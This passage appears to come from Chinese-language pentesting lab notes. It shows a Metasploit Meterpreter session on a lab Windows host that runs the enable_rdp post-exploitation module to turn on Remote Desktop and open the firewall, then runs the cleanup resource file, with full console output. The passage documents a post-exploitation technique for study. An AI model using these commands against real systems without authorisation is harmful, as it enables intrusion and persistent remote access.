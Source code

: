 ![image-20220814194107916](./st1.assets/image-20220814194107916.png)



#### 法三：MSF

##### **Meterpretr enable_rdp模块**

```
run post/windows/manage/enable_rdp 
run multi_console_command -r <FileLocation>				（文件为启用模块后的给的路径，都在/root/.msf4/loot/目录下）
```



```shell
meterpreter > run post/windows/manage/enable_rdp 

[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     The Terminal Services service is not set to auto, changing it to auto ...
[*]     Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20220814082551_default_192.168.220.138_host.windows.cle_346748.txt
meterpreter > 
meterpreter > run multi_console_command -r /root/.msf4/loot/20220814082551_default_192.168.220.138_host.windows.cle_346748.txt
[*] Running Command List ...
[*]     Running command execute -H -f cmd.exe -a "/c sc config termservice start= disabled"
Process 3008 created.
[*]     Running command execute -H -f cmd.exe -a "/c sc stop termservice"
Process 2848 created.
[*]     Running command execute -H -f cmd.exe -a "/c 'netsh firewall set service type = remotedesktop mode = enable'"
Process 1416 created.
```
